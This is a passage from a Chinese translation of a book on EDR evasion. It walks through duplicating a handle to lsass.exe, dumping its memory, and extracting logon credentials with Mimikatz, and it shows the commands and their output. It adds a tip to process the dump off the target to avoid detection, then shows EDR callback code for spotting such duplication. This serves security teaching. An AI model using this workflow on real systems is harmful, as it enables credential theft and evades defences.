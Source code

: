 列表 4-12：评估复制的句柄并转储内存

我们首先获取进程 ❶ 的映像名称，并将其传递给一个内部函数，<samp class="SANS_TheSansMonoCd_W5Regular_11">IsLsassHandle()</samp>，该函数确保进程句柄是针对*lsass.exe*的。接下来，我们检查句柄的访问权限，寻找 <samp class="SANS_TheSansMonoCd_W5Regular_11">PROCESS_VM _READ</samp> 和 <samp class="SANS_TheSansMonoCd_W5Regular_11">PROCESS_QUERY_INFORMATION</samp>，因为我们将用来读取*lsass.exe*进程内存的 API 需要这些权限。如果我们找到具有所需访问权限的*lsass.exe*句柄，我们将复制该句柄并传递给 API，提取其信息 ❷。

使用这个新句柄，我们可以利用像 Mimikatz 这样的工具创建并处理*lsass.exe*的内存转储。列表 4-13 展示了这个工作流程。

```
C:\> **HandleDuplication.exe**
LSASS PID: 884
[+] Found a handle with the required rights!
 Owner PID: 17600
 Handle Value: 0xff8
 Granted Access: 0x1fffff
[>] Dumping LSASS memory to the DMP file…
[+] Dumped LSASS memory C:\lsa.dmp

C:\> **mimikatz.exe**

mimikatz # **sekurlsa::minidump C:\lsa.dmp**
Switch to MINIDUMP : 'C:\lsa.dmp'

mimikatz # **sekurlsa::logonpasswords**
Opening : 'C:\lsa.dmp' file for minidump…

Authentication Id : 0 ; 6189696 (00000000:005e7280)
Session           : RemoteInteractive from 2
User Name         : highpriv
Domain            : MILKYWAY
Logon Server      : SUN
`--snip--`
```

列表 4-13：转储 lsass.exe 的内存并使用 Mimikatz 处理小型转储文件

如你所见，我们的工具确定了 PID 17600，它对应于我测试主机上的进程资源管理器，并且该 PID 具有*lsass.exe*的句柄，访问掩码为 <samp class="SANS_TheSansMonoCd_W5Regular_11">PROCESS_ALL_ACCESS</samp> (0x1FFFFF)。我们使用这个句柄将内存转储到文件中，*C:\lsa.dmp*。接下来，我们运行 Mimikatz 并使用它来处理该文件，然后使用 <samp class="SANS_TheSansMonoCd_W5Regular_11">sekurlsa::logonpasswords</samp> 命令提取凭证信息。请注意，我们可以在目标外执行这些 Mimikatz 步骤，以减少被检测的风险，因为我们处理的是文件而不是实时内存。

尽管这一技术可以避开某些传感器，但 EDR 仍然可以通过多种方式检测我们的行为。请记住，对象回调可能会收到关于复制请求的通知。列表 4-14 展示了 EDR 驱动程序中可能出现的这种检测逻辑。

```
OB_PREOP_CALLBACK_STATUS ObjectNotificationCallback(
    PVOID RegistrationContext,
    POB_PRE_OPERATION_INFORMATION Info)
{
    NTSTATUS status = STATUS_SUCCESS;
 ❶ if (Info->ObjectType == *PsProcessType)
    {
        if (Info->Operation == OB_OPERATION_HANDLE_DUPLICATE)
        {
            PUNICODE_STRING psTargetProcessName = HelperGetProcessName(
              (PEPROCESS)Info->Object);
            if (!psTargetProcessName))
            {
                return OB_PREOP_SUCCESS;
            }

            UNICODE_STRING sLsaProcessName = RTL_CONSTANT_STRING(L"lsass.exe");
          ❷ if (FsRtlAreNamesEqual(psTargetProcessName, &sLsaProcessName, TRUE, NULL))
            {
              `--snip--`
            }
        }
```
